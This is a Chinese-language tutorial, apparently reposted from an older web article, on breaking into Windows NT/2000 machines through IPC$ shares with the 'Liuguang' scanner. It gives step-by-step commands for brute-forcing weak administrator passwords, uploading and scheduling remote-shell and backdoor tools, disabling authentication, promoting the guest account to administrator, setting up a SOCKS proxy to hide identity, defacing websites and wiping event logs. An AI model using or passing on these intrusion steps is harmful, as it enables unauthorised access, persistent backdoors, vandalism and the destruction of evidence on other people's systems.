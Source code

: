 ## IPC$ 探测 — 流光基础教程

IPC : interprocess communications
准确说 是 IPC$  是默认的在系统启动时候的 admin 共享.

是 windowsNT / 2k 特有的 远程网络管理登录功能

特点是: 同一时间内 两个 IP 之间 只允许建立一个连接.

试图通过 ipc$ 连接 会在 ecentlog 中留下记录. 不管你是否登录成功.



启动流光:
获得一台主机的管理权限  并将这个主机做成跳板,那么就可以用命中率高的办法来探测了.
即测试一批 IP 来获得弱口令.


在主界面选择“探测—探测 POP3/FTP/NT/SQL 主机”选项。或者直接按 CTRL+R，然后弹出 
“主机扫描设置”对话框。 

3：输入我们要破解的IP 段，在选项中我们把“frontpage”主机自动加入HTTP 主机列表取 
消。因为我们只想获得IPC 弱口令，这样可以加快扫描的速度，加入IP，选择扫描NT/98 主 
机，需要说明的是这里我们可以选择的还有很多，包括SQL/FTP/POP3 等等，灵活运用可以给 
我今后的探测工作带来很大的方便 

4：探测中„„ 
警告：如果你要探测的是流光保留的国内IP 段会被禁止的，也就是探测的时候信息栏会出 
现“IP 保留”的字样，免得初学HACKER 的你误伤国内的站点的同时给自己带来麻烦！ 

5：扫描到的NT/98 主机列表（我就不贴了） 

6：没有扫描到密码的，就不用看报告了 

7：有了 NT/98 的机器了，就可以正式开始 IPC$，右键点击谈探测的“IPC$主机—探测—探 
测所有IPC$用户列表”。或者按键盘的CTRL+F9 

8：注意下面两个复选框的设置，把两个都选上，因为我们只要 ipc$管理员的弱口令，而且 
只要有一个就可以了，然后点“选项”。 

9：点“选项”后，弹出“用户列表选项”对话框，为了加快弱口令扫描速度，我们把它全部 
取消，比如第二个选项，既然对方景致列出用户了，我想对于一个网管来说，弱口令可能性 
也是微乎其微的 


10：探测中„„很快就出现破解成功的提示，上面的FTP 主机（IP192.168.0.1）也有了相应 
的变化。 

11：又出现查看报告的窗口，这次有结果，当然要仔细看看 

12：有远程主机的管理密码了，我们剩下的就是想办法控制他了，有什么好办法呢？当然有 
很多了，比如在“工具——NT/IIS 工具”菜单下，这些我们以后在说，今天还是先练习NET 
命令吧，这样有利于我们了解这些命令究竟是在完成些什么样的功能 

13：目标是如何被黑的 
开个DOS 命令提示符窗口执行命令如下命令 “||”后面是说明 
1）net use \对方IPipc$“密码” /user：“用户名”||与对方建立ipc$ 远程连接 
2）copy icmd.exe \对方ipadmin$ ||admin$是对方的winnt 目录，这里存放文件多 
3）net time \对方ip ||查看对方的系统时间 
4）at \对方ip 程序启动的时间 启动程序名 启动程序的参数 ||用at 命令来定时启动程 
序，在这里我们用soon 这个程序来做也可以，它可以取代3/4 两步。 
5）tenlent 对方ip 端口 ||通过远程服务端口远程登陆目标主机 
6）输入pass（口令） ||如果不是就用icmd.exe，或者没有设置口令就不用了 
7）在开个窗口，继续copy我们要用的东西，copy sock.exe、copy ntlm.exe、copy vclear.exe。 
如果我们真的想黑了它，只需要把我们的首页文件覆盖目标的首页就OK 了。我们可以通过在 
跟目录执行dir /s default.htm 或者dir /s index.htm 来确定对方的首页的位置，一般是 
在X：interpubwwwroot 就可以用修改好的首页覆盖对方的首页 
8）其实黑人家是很不道德的而且违法的，我们最还是物有所值，做成跳板吧，今后干活方便 
点。执行我们copy 过去的ntlm.exe 取消登陆验证。再给自己留个后门，比如提升guest 的 
权限，或者其他的后门工具，这类东西有很多，自己选吧 
9）做个sock5 代理玩玩，用在QQ 上面不错哦 
执行我们copy 过去的sock -install,net start skserver ,看看用在QQ 上的效果，这样 
就可以隐藏自己的真实身份了，而且在局域网也可以通过服务器上QQ 了 
10）问题思考：还能够做成其它的吗？ 
当然了，只要你有时间，而且愿意做，一个个人专用的服务器在你面前，你想做什么都可 
以 


14：日志清除，断开连接： 
支持我们copy 过去的cl.exe clear.exe 都可以清除日志，比如clear all ：清除所有日 
志。然后断开连接：net use \对方 IPIPC$ /delete 这一步是必须的，尤其是在一些有争 
议的站点上，或者是国内的站点，除非你想让电视报导XXX 地区又捕获黑客一名XXX 







IPC$的定义：IPC$是共享“命名管道”的资源，它是为了让进程间通信而开放的命名管道，在远程管理计算机和查看计算机的共享资源时使用。
IPC$的作用：利用IPC$可以与目标主机建立一个空的连接(无需用户名与密码)，而利用这个空的连接，我们就可以得到目标主机上的用户列表。用“流光”的IPC$探测功能，可以得到用户列表，并配合字典，进行密码尝试。
IPC$空连接主机步骤：
1、首先要扫到能建立IPC$空连接的主机，有了目标才能进攻，推荐使用安全焦点的xscan_gui v1.3，该软件使用方法很简单，而且速度快，也许还能扫出其他漏洞。
2、详细了解NET命令，做IPC$空连接主机是不可不知NET命令使用的。
3、如果知道对方的用户名和密码，就用下面这个命令：
net use \\127.0.0.1\ipc$ ”密码” /user:”用户名”
退出的命令是：
net use \\127.0.0.1\ipc$ /delte
4、大部分情况下我们都不知道对方机器的用户名和密码。这就需要知道他的IP，我们使用用ping命令，格式为：ping www.xxx.com(如果用QQ聊天更简单，现在好多QQ都显IP的)， 用追捕查他的操作系统，用户名等。现在信息都有了，然后大家试试弱智点的密码，如:123，12345，123456，用户名就是Administrator。运气好的话就可以进入了。
5、实在猜不出密码的话就只有用榕哥的大作――流光，运行探测――扫描POP3/FTP/NT/SQL主机，会出现“主机扫描设置”，在“扫描范围”中分别填写“开始地址”与“结束地址”，这步你可以选择要扫描的IP段，也可以只填某一IP，扫描主机类型”选择“NT/98”，然后开始扫描，如果单扫某一IP，我建议扫描主机类型选ALL，选项选中的内容不要取消，这样可以看看他的机器是什么颜色的，具体表示看下表：
红色：该主机安装了FrontPage扩展，并没有权限设置。如果扫到红色的，你可以打开FrontPage，在打开那里填上他的IP地址，接着你就知道怎么做了。
蓝色：表示该主机上安装了FrontPage扩展。
黑色：远程执行命令。你可以单击该主机――连接，就可以用DOS命令操作远程计算机，如:dir c:\\
黄色：直接下载对方SAM文件(SAM文件是NT下储存用户和密码的文件，下载后用LC3可以解开)。
绿色：将对方SAM文件上传到指定的FTP服务器。
6、现在知道了他主机的情况，就可以开始探测他的用户列表了！右键点IPC$主机－探测－探测所有IPC$用户列表，下面两个对话框的设置都选上，我们只要IPC$管理员的弱口令。在结果点击右键，探测用户列表，Administrstor(超级用户)直接探测到ADMIN的密码，如果实在不行，我们还可以拿其他用户“开刀”，然后在想办法让他变成超级用户。
7、得到用户名和密码我们就可以连接了。打开win2000下的cmd.exe(也就是命令提示符)。然后重复第二步教过的连接连接命令:
net use \\127.0.0.1\ipc$ ”密码” /user:”用户名”
成功连接后显示命令成功完成。
8、现在你可以用copy命令把你想要上传的东西放到他的机器里。
9、如果你想黑他页面的话就找到网页所在的目录，如:c:\inetpub\wwwroot，用命令：
copy c:\index.htm \\IP地址\c$\inetpub\wwwroot
这里的c:\index.htm指的是你作好的网页，上传替换掉原先的文件就可以改他的主页。
其他的操作方式就自己开发吧！以下提供几条有用的命令：
建立空连接
net use \\IP\ipc$ ”" /user:”"
建立非空连接
net use \\IP\ipc$ ”用户名” /user:”密码”
映射默认共享
net use z: \\IP\c$ ”密码” /user:”用户名” （即可将对方的c盘映射为自己的z盘，其他盘类推）
如果已经和目标建立了ipc$，则可以直接用IP+盘符+$访问,具体命令：
net use z: \\IP\c$
删除一个ipc$连接
net use \\IP\ipc$ /del
删除共享映射
net use c: /del 删除映射的c盘，其他盘类推
net use * /del 删除全部,会有提示要求按y确认
经典入侵示例
1.C:\>net use \\127.0.0.1\IPC$ ”" /user:”admintitrators”
这是用《流光》扫到的用户名为administrators，密码为”空”的IP地址，如果是打算攻击的话，就可以用这样的命令来与127.0.0.1建立一个连接，因为密码为”空”，所以第一个引号处就不用输入，后面一个双引号里的是用户名，输入administrators，命令即可成功完成。
2. C:\>copy srv.exe \\127.0.0.1\admin$
先复制srv.exe上去，在流光的Tools目录下就有（这里的$是指admin用户的c:\winnt\system32\，大家还可以使用c$、d$，意思是C盘与D盘，这看你要复制到什么地方去了）。
3.C:\>net time \\127.0.0.1
查查时间，发现127.0.0.1 的当前时间是2005/5/1上午11:00，命令成功完成。
4.C:\>at \\127.0.0.1 11:05 srv.exe
用at命令启动srv.exe吧（这里设置的时间要比主机时间快，不然无法启动）。
5.C:\>net time \\127.0.0.1
再查查到时间没有，如果127.0.0.1 的当前时间是 2002/3/19 上午 11:05，那就准备开始下面的命令。
6.C:\>telnet 127.0.0.1 99
这里会用到Telnet命令吧，注意端口是99。Telnet默认的是23端口，但是我们使用的是SRV在对方计算机中为我们建立一个99端口的Shell。
虽然我们可以Telnet上去了，但是SRV是一次性的，下次登录还要再激活！所以我们打算建立一个Telnet服务！这就要用到ntlm了。
7.C:\>copy ntlm.exe \\127.0.0.1\admin$
用Copy命令把ntlm.exe上传到主机上（ntlm.exe也是在《流光》的Tools目录中）。
8.C:\WINNT\system32\>ntlm
输入ntlm启动（这里的C:\WINNT\system32\>指的是对方计算机，运行ntlm其实是让这个程序在对方计算机上运行）。当出现”DONE”的时候，就说明已经启动正常。然后使用”net start telnet”来开启Telnet服务！
9.Telnet 127.0.0.1，接着输入用户名与密码就进入对方了，操作就像在DOS上操作一样简单！然后你想做什么就做什么吧。
为了以防万一,我们再把guest激活加到管理组。
10.C:\>net user guest /active:yes
将对方的Guest用户激活。
11.C:\>net user guest 1234
将Guest的密码改为1234,或者你要设定的密码。
12.C:\>net localgroup administrators guest /add
将Guest变为Administrator (如果管理员密码更改，guest帐号没改变的话，下次我们可以用guest再次访问这台计算机) 。
其他操作就看您的能力和水平了，自己揣摩吧！
注：此为本人几年前收藏的经典网文，虽然好多命令和工具均已无法正常运行，但其思路和方法仍然值得网络安全爱好者学习，在此向原作者表示致敬！




流光5 
